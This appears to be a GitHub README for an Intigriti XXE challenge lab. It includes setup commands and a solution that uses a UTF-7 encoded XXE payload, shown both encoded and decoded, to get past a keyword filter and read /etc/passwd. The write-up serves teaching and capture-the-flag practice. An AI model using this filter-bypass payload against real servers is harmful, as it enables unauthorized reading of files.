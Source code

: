 ## Initigriti XXE challenge POC

```
git clone https://github.com/rogueloop/intigriti-xxe-challenge.git
cd intigriti-xxe-challenge
php -S localhost:8000
```

## challenge 
![Challenge Image](./486066540_18220552186292613_50405887802685493_n.jpeg)

## Solution 

The code has a sanitation for common XML keywords like SYSTEM and PUBLIC. We can use the utf 7 encoded payload from the intigriti article on XXE. The payload fetches the local file `/etc/passwd` from the server.
Make small changes to the payload change post_title to title and post_desc to desc. Since `+ACA-` is used for space in utf-7 the space between the `' SYSTEM '` will be filled so the match will fail. 

Payload used: 

```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADw-+ACE-DOCTYPE+ACA-data+ACA-+AFs-+AAo-+ACA-+ACA-+ADw-+ACE-ENTITY+ACA-xxe+ACA-SYSTEM+ACA-+ACI-file:///etc/passwd+ACI-+AD4-+AAo-+AF0-+AD4-+AAo-+ADw-data+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ADw-post+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ADw-title+AD4-+ACY-xxe+ADs-+ADw-/title+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ACA-+ADw-desc+AD4-xyz+ADw-/desc+AD4-+AAo-+ACA-+ACA-+ACA-+ACA-+ADw-/post+AD4-+AAo-+ADw-/data+AD4-
```

Article link : https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-advanced-xxe-vulnerabilities#:~:text=Exploiting%20XXE%20via%20UTF%2D7%20encoding 

Results: 

![Exploit](./exploit.png)

Here is a readable form of the payload: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>
    <post>
        <title>&xxe;</title>
        <desc>xyz</desc>
    </post>
</data>
```